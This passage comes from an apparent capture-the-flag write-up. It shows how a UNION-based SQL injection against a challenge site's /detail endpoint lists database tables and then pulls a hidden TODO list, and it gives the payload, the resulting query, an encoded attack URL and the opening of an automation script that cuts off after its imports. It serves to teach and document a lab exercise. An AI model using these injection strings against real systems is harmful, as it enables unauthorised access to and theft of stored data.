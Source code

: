 While it might be tempting to go for admin access, the goal is to find Jack's TODO list. So, craft a query that lists all the tables. In the example below, the `table_name` query statement is at the same column index as the `full_name` column in the *uniquecontact* table, which will result in the [detail.ejs](../artifacts/objectives/o12/detail.ejs) template rendering it front and center using `<h1><%= encontact.full_name %></h1>`.

=== ":material-needle: SQL injection input string"
    ```sql
    0,0 union select * from 
    ((select 1)F1 join (select table_name from information_schema.tables where table_schema='encontact')F2 join 
    (select 3)F3 join (select 4)F4 join (select 5)F5 join (select 6)F6 join (select 7)F7);--
    ```

=== ":material-database-search: Code-generated SQL query"
    ```sql
    SELECT * FROM uniquecontact WHERE id=0 OR id=0 union select * from 
    ((select 1)F1 join (select table_name from information_schema.tables where table_schema='encontact')F2 join 
    (select 3)F3 join (select 4)F4 join (select 5)F5 join (select 6)F6 join (select 7)F7);-- OR id=?
    ```

Using the SQLi string above as input for the [/detail](https://staging.jackfrosttower.com/detail/0%2C0%20union%20select%20%2A%20from%20%28%28select%201%29F1%20join%20%28select%20table_name%20from%20information_schema.tables%20where%20table_schema%3D%27encontact%27%29F2%20join%20%28select%203%29F3%20join%20%28select%204%29F4%20join%20%28select%205%29F5%20join%20%28select%206%29F6%20join%20%28select%207%29F7%29%3B--) endpoint gives us what we are looking for.

![todo table](../img/objectives/o12/todo_table.png){: class=border }

The same technique can now be repeated to retrieve the column information from the *todo* table (i.e., `id`, `note`, `completed`), followed by the notes themselves. To help automate these final steps we can create a [script](../tools/objectives/o12/query_db.py) that takes our desired SQL query as input, inserts it into the SQLi `UNION` attack string, creates an authenticated session by submitting the contact form twice using the same email, and then performs a GET request against the [/detail](https://staging.jackfrosttower.com/detail) endpoint using the crafted SQLi string as input.

??? example ":material-file-outline: query_db.py"
    ```python linenums="1"
    #!/usr/bin/env python
    import click
    import requests
    from bs4 import BeautifulSoup
